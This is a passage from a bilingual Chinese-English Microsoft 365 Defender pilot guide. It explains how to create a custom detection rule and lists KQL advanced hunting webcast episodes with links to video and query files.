2. <span data-ttu-id="ba19a-349">使用允许安全团队了解警报的信息、生成警报的原因以及希望他们采取哪些操作，填写必填字段。</span><span class="sxs-lookup"><span data-stu-id="ba19a-349">Fill in the required fields with the  information that will allow the security team to understand the alert, why it was generated, and what actions you expect them to take.</span></span>

   

   <span data-ttu-id="ba19a-351">确保清楚填写字段，以帮助向下一位用户提供关于此检测规则警报的明智决定</span><span class="sxs-lookup"><span data-stu-id="ba19a-351">Ensure that you fill out the fields with clarity to help give the next user an informed decision about this detection rule alert</span></span>

3. <span data-ttu-id="ba19a-352">选择此警报中影响的实体。</span><span class="sxs-lookup"><span data-stu-id="ba19a-352">Select what entities are impacted in this alert.</span></span> <span data-ttu-id="ba19a-353">在这种情况下，选择 **"设备和\*\*\*\*邮箱"。**</span><span class="sxs-lookup"><span data-stu-id="ba19a-353">In this case, select **Device** and **Mailbox**.</span></span>

   

4. <span data-ttu-id="ba19a-355">确定触发警报时应采取的操作。</span><span class="sxs-lookup"><span data-stu-id="ba19a-355">Determine what actions should take place if the alert is triggered.</span></span> <span data-ttu-id="ba19a-356">在这种情况下，请运行防病毒扫描，但可能会执行其他操作。</span><span class="sxs-lookup"><span data-stu-id="ba19a-356">In this case, run an antivirus scan, though other actions could be taken.</span></span>

   

5. <span data-ttu-id="ba19a-358">选择警报规则的范围。</span><span class="sxs-lookup"><span data-stu-id="ba19a-358">Select the scope for the alert rule.</span></span> <span data-ttu-id="ba19a-359">由于此查询涉及设备，因此设备组根据 Microsoft Defender for Endpoint 上下文在此自定义检测中相关。</span><span class="sxs-lookup"><span data-stu-id="ba19a-359">Since this query involve devices, the device groups are relevant in this custom detection according to Microsoft Defender for Endpoint context.</span></span> <span data-ttu-id="ba19a-360">创建不包含设备作为受影响实体的自定义检测时，范围不适用。</span><span class="sxs-lookup"><span data-stu-id="ba19a-360">When creating a custom detection that does not include devices as impacted entities, scope does not apply.</span></span>

   

   <span data-ttu-id="ba19a-362">对于此试点，您可能希望将此规则限制为生产环境中的测试设备的子集。</span><span class="sxs-lookup"><span data-stu-id="ba19a-362">For this pilot, you might want to limit this rule to a subset of testing devices in your production environment.</span></span>

6. <span data-ttu-id="ba19a-363">选择 **“创建”**。</span><span class="sxs-lookup"><span data-stu-id="ba19a-363">Select **Create**.</span></span> <span data-ttu-id="ba19a-364">然后， **从导航面板中选择** 自定义检测规则。</span><span class="sxs-lookup"><span data-stu-id="ba19a-364">Then, select **Custom detection rules** from the navigation panel.</span></span>

   

   

   <span data-ttu-id="ba19a-367">在此页中，可以选择将打开详细信息页的检测规则。</span><span class="sxs-lookup"><span data-stu-id="ba19a-367">From this page, you can select the detection rule, which will open a details page.</span></span>

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a><span data-ttu-id="ba19a-369">其他高级搜寻演练练习</span><span class="sxs-lookup"><span data-stu-id="ba19a-369">Additional advanced hunting walk-through exercises</span></span>

<span data-ttu-id="ba19a-370">若要详细了解高级搜寻，以下网络广播将演练 Microsoft 365 Defender 中的高级搜寻功能，以创建跨支柱查询、透视实体以及创建自定义检测和修正操作。</span><span class="sxs-lookup"><span data-stu-id="ba19a-370">To learn more about advanced hunting, the following webcasts will walk you through the capabilities of advanced hunting within Microsoft 365 Defender to create cross-pillar queries, pivot to entities and create custom detections and remediation actions.</span></span>

> [!NOTE]
> <span data-ttu-id="ba19a-371">请准备好使用自己的 GitHub 帐户在试点测试实验室环境中运行搜寻查询。</span><span class="sxs-lookup"><span data-stu-id="ba19a-371">Be prepared with your own GitHub account to run the hunting queries in your pilot test lab environment.</span></span>

|<span data-ttu-id="ba19a-372">标题</span><span class="sxs-lookup"><span data-stu-id="ba19a-372">Title</span></span>|<span data-ttu-id="ba19a-373">说明</span><span class="sxs-lookup"><span data-stu-id="ba19a-373">Description</span></span>|<span data-ttu-id="ba19a-374">下载 MP4</span><span class="sxs-lookup"><span data-stu-id="ba19a-374">Download MP4</span></span>|<span data-ttu-id="ba19a-375">在 YouTube 上观看</span><span class="sxs-lookup"><span data-stu-id="ba19a-375">Watch on YouTube</span></span>|<span data-ttu-id="ba19a-376">CSL 文件使用</span><span class="sxs-lookup"><span data-stu-id="ba19a-376">CSL file to use</span></span>|
|---|---|---|---|---|
|<span data-ttu-id="ba19a-377">第 1 集：KQL 基础知识</span><span class="sxs-lookup"><span data-stu-id="ba19a-377">Episode 1: KQL fundamentals</span></span>|<span data-ttu-id="ba19a-378">我们将介绍 Microsoft 365 Defender 中高级搜寻功能的基础知识。</span><span class="sxs-lookup"><span data-stu-id="ba19a-378">We'll cover the basics of advanced hunting capabilities in Microsoft 365 Defender.</span></span> <span data-ttu-id="ba19a-379">了解可用的高级搜寻数据和基本 KQL 语法和运算符。</span><span class="sxs-lookup"><span data-stu-id="ba19a-379">Learn about available advanced hunting data and basic KQL syntax and operators.</span></span>|[<span data-ttu-id="ba19a-380">MP4</span><span class="sxs-lookup"><span data-stu-id="ba19a-380">MP4</span></span>](https://aka.ms/MTP15JUL20_MP4)|[<span data-ttu-id="ba19a-381">YouTube</span><span class="sxs-lookup"><span data-stu-id="ba19a-381">YouTube</span></span>](https://youtu.be/0D9TkGjeJwM)|[<span data-ttu-id="ba19a-382">第 1 部分：Git 中的 CSL 文件</span><span class="sxs-lookup"><span data-stu-id="ba19a-382">Episode 1: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|<span data-ttu-id="ba19a-383">第 2 集：加入</span><span class="sxs-lookup"><span data-stu-id="ba19a-383">Episode 2: Joins</span></span>|<span data-ttu-id="ba19a-384">我们将继续了解高级搜寻数据以及如何将表联接在一起。</span><span class="sxs-lookup"><span data-stu-id="ba19a-384">We'll continue learning about data in advanced hunting and how to join tables together.</span></span> <span data-ttu-id="ba19a-385">了解内部、外部、唯一和半联接，以及默认 Kusto innerunique 联接的细微差别。</span><span class="sxs-lookup"><span data-stu-id="ba19a-385">Learn about inner, outer, unique, and semi joins, and the nuances of the default Kusto innerunique join.</span></span>|[<span data-ttu-id="ba19a-386">MP4</span><span class="sxs-lookup"><span data-stu-id="ba19a-386">MP4</span></span>](https://aka.ms/MTP22JUL20_MP4)|[<span data-ttu-id="ba19a-387">YouTube</span><span class="sxs-lookup"><span data-stu-id="ba19a-387">YouTube</span></span>](https://youtu.be/LMrO6K5TWOU)|[<span data-ttu-id="ba19a-388">第 2 部分：Git 中的 CSL 文件</span><span class="sxs-lookup"><span data-stu-id="ba19a-388">Episode 2: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|<span data-ttu-id="ba19a-389">第 3 部分：汇总、透视和可视化数据</span><span class="sxs-lookup"><span data-stu-id="ba19a-389">Episode 3: Summarizing, pivoting, and visualizing data</span></span>|<span data-ttu-id="ba19a-390">既然我们可以筛选、操作和联接数据，那么是时候开始汇总、量化、透视和可视化了。</span><span class="sxs-lookup"><span data-stu-id="ba19a-390">Now that we're able to filter, manipulate, and join data, it's time to start summarizing, quantifying, pivoting, and visualizing.</span></span> <span data-ttu-id="ba19a-391">在此部分，我们将介绍汇总运算符和一些可在高级搜寻架构中深入其他表时执行的计算。</span><span class="sxs-lookup"><span data-stu-id="ba19a-391">In this episode, we'll cover the summarize operator and some of the calculations you can perform while diving into additional tables in the advanced hunting schema.</span></span> <span data-ttu-id="ba19a-392">我们将数据集转换为可帮助改进分析的图表。</span><span class="sxs-lookup"><span data-stu-id="ba19a-392">We turn our datasets into charts that can help improve analysis.</span></span>|[<span data-ttu-id="ba19a-393">MP4</span><span class="sxs-lookup"><span data-stu-id="ba19a-393">MP4</span></span>](https://aka.ms/MTP29JUL20_MP4)|[<span data-ttu-id="ba19a-394">YouTube</span><span class="sxs-lookup"><span data-stu-id="ba19a-394">YouTube</span></span>](https://youtu.be/UKnk9U1NH6Y)|[<span data-ttu-id="ba19a-395">第 3 部分：Git 中的 CSL 文件</span><span class="sxs-lookup"><span data-stu-id="ba19a-395">Episode 3: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|<span data-ttu-id="ba19a-396">第 4 集：让我们进行搜寻！</span><span class="sxs-lookup"><span data-stu-id="ba19a-396">Episode 4: Let's hunt!</span></span> <span data-ttu-id="ba19a-397">将 KQL 应用于事件跟踪</span><span class="sxs-lookup"><span data-stu-id="ba19a-397">Applying KQL to incident tracking</span></span>|<span data-ttu-id="ba19a-398">跟踪某些攻击者活动的时间！</span><span class="sxs-lookup"><span data-stu-id="ba19a-398">Time to track some attacker activity!</span></span> <span data-ttu-id="ba19a-399">在此部分，我们将使用对 Microsoft 365 Defender 中的 KQL 和高级搜寻的改进了解来跟踪攻击。</span><span class="sxs-lookup"><span data-stu-id="ba19a-399">In this episode, we'll use our improved understanding of KQL and advanced hunting in Microsoft 365 Defender to track an attack.</span></span> <span data-ttu-id="ba19a-400">了解现场用于跟踪攻击者活动的一些提示和技巧，包括网络安全的 APC 以及如何将它们应用于事件响应。</span><span class="sxs-lookup"><span data-stu-id="ba19a-400">Learn some of the tips and tricks used in the field to track attacker activity, including the ABCs of cybersecurity and how to apply them to incident response.</span></span>|[<span data-ttu-id="ba19a-401">MP4</span><span class="sxs-lookup"><span data-stu-id="ba19a-401">MP4</span></span>](https://aka.ms/MTP5AUG20_MP4)|[<span data-ttu-id="ba19a-402">YouTube</span><span class="sxs-lookup"><span data-stu-id="ba19a-402">YouTube</span></span>](https://youtu.be/2EUxOc_LNd8)|[<span data-ttu-id="ba19a-403">第 4 部分：Git 中的 CSL 文件</span><span class="sxs-lookup"><span data-stu-id="ba19a-403">Episode 4: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a><span data-ttu-id="ba19a-404">后续步骤</span><span class="sxs-lookup"><span data-stu-id="ba19a-404">Next step</span></span>

|<span data-ttu-id="ba19a-405"></span><span class="sxs-lookup"><span data-stu-id="ba19a-405"></span></span> <br>[<span data-ttu-id="ba19a-406">结束和摘要阶段</span><span class="sxs-lookup"><span data-stu-id="ba19a-406">Closing and summary phase</span></span>](mtp-pilot-close.md)|<span data-ttu-id="ba19a-407">分析你的 Microsoft 365 Defender 试点结果，将其呈现给利益干系人，然后执行下一步。</span><span class="sxs-lookup"><span data-stu-id="ba19a-407">Analyze your Microsoft 365 Defender pilot outcome, present them to your stakeholders, and take the next step.</span></span>
|:-----|:-----|
